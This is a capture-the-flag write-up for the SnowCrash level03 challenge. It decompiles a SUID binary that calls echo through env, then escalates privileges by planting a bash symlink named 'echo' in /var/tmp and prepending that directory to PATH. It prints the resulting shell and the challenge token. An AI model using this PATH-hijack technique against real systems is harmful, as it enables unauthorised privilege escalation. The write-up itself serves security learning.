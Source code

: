 # Flag03

In our home we find an executable file:
```
level03@SnowCrash:~$ ls -la
total 24
<SNIP>
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
It's important to notice that the executable has [SUID and SGID](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) permissions, meaning respectively that the file always executes as the user and the group owning the file.

I transfer it to my session in order to analyze it:
```
$ scp -P 4242 level03@10.13.250.56:/home/user/level03/level03 ~/
$ file level03
level03: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f58ee3b85530179386e826e809e4b547b4b18ac, with debug_info, not stripped

$ ghidra
```
Click on "New Project" and then on "Non-Shared Project":
![ghidra_open](./20240314115916.png)
![ghidra_open](./20240314120120.png)
![ghidra_open](./20240314120153.png)
![ghidra_open](./20240314120242.png)
And have the program "Analyze" it (click on the "Select All" button):
![ghidra_open](./20240314120905.png)

The decompiled main functions resembles to this:
```
/* WARNING: Unknown calling convention */

int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}

```
According to an answer on [Stack Overflow](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code), the `PATH` variable can be overridden to make it point to a directory with a custom version of `echo`, and since `echo` is executed using `env`, it isn't treated as a built-in.

> Note that the setting of real user ID, effective user ID and saved set-user-ID by a call to `setresuid()` before the call to `system()` in the vulnerable code posted in the question allows one to exploit the vulnerability even when only effective user ID is set to a privileged user ID and real user ID remains unprivileged (as is for example the case when relying on set-user-ID bit on a file as above). Without the call to `setresuid()` the shell run by `system()` would reset the effective user ID back to the real user ID making the exploit ineffective. However, in the case when the vulnerable code is run with real user ID of a privileged user, `system()` call alone is enough.

Ideally I can create a [symbolic link](https://www.freecodecamp.org/news/linux-ln-how-to-create-a-symbolic-link-in-linux-example-bash-command) in one of the folders of the path that are searched before the `/bin` folder in order to execute `bash` before `echo`, since I don't have write permissions in my home folder. However, I have permissions to execute `/bin/bash`.

To find directories where I (as "others") have at least write and exec [permissions](https://www.redhat.com/sysadmin/audit-permissions-find), I type:
```
find / -perm -003 -type d 2>/dev/null # 4 for r, 2 for w, 1 for x
```
As in:
```
level03@SnowCrash:/var/crash$ find / -perm -003 -type d 2>/dev/null
/run/shm
/run/lock
/tmp
/var/crash
/var/lib/php5
/var/tmp
/rofs
/rofs/tmp
/rofs/var/crash
/rofs/var/lib/php5
/rofs/var/tmp
level03@SnowCrash:/var/crash$
```
I need to create a symbolic link as follows:
```
ln -s /bin/bash echo
```
I found out I have writing permissions in `/var/tmp`, so I created the symbolic link to `/bin/bash` that I called `echo` and exported the directory as part of the $PATH variable:
```
level03@SnowCrash:~$ cd /var/tmp/
level03@SnowCrash:/var/tmp$ ln -s /bin/bash echo
level03@SnowCrash:/var/tmp$ export PATH=$PWD:$PATH
level03@SnowCrash:/var/tmp$ ~/level03
echo: Exploit: No such file or directory
```
Since `bash` wanted to execute `Exploit`, I created a script with the same name calling `bash`. And I was `flag03`:
```
level03@SnowCrash:/var/tmp$ cat Exploit
#!/bin/bash

bash
level03@SnowCrash:/var/tmp$ ~/level03
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:/var/tmp$ whoami
flag03
flag03@SnowCrash:/var/tmp$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
flag03@SnowCrash:/var/tmp$ su level04
Password:
level04@SnowCrash:~$